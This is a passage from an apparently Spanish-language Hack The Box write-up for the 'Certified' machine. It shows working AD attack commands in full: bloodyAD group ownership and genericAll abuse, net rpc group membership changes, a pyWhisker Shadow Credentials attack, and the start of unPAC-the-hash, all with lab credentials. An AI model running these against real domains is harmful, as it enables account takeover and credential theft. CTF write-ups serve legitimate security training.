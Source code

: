 {% code overflow="wrap" %}
```bash
bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' set owner 'Management' judith.mader

bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' add genericAll 'Management' judith.mader

net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2483_vmware_d37cukpEGr.png" alt=""><figcaption></figcaption></figure>

### Abusing GenericWrite Privilege - Shadow Credentials Attack (pyWhisker.py)

Ya que ahora el usuario que disponemos "judith.mader@certified.htb" forma parte del grupo "management@certified.htb" y los miembros de este disponen del privilegio de **GenericWrite**, podemos probar de realizar un **Shadow Credentials Attack** para obtener el hash NTM del usuario "management\_svc@certified.htb".

Verificamos que al realizar el ataque, obtenemos un archivo **.PFX** y unas credenciales para el archivo en cuestión.

{% code overflow="wrap" %}
```bash
python3 /opt/pywhisker/pywhisker/pywhisker.py --dc-ip 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" --target "MANAGEMENT_SVC" --action "add"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2484_vmware_ORecB06OH9.png" alt=""><figcaption></figcaption></figure>

### unPAC the hash (gettgtpkinit.py && getnthash.py)

A continuación, deberemos de realizar un **unPAC the hash** para obtener el hash NTLM del usuario al cual le hemos realizado el **Shadow Credentials Attack**.

A través del siguiente comando, procederemos a obtener el TGT (Ticket Granting Ticket) utilizando el el certificado **.PFX** obtenido. Verificamos que nos genera un TGT en el archivo llamado **.ccache**.

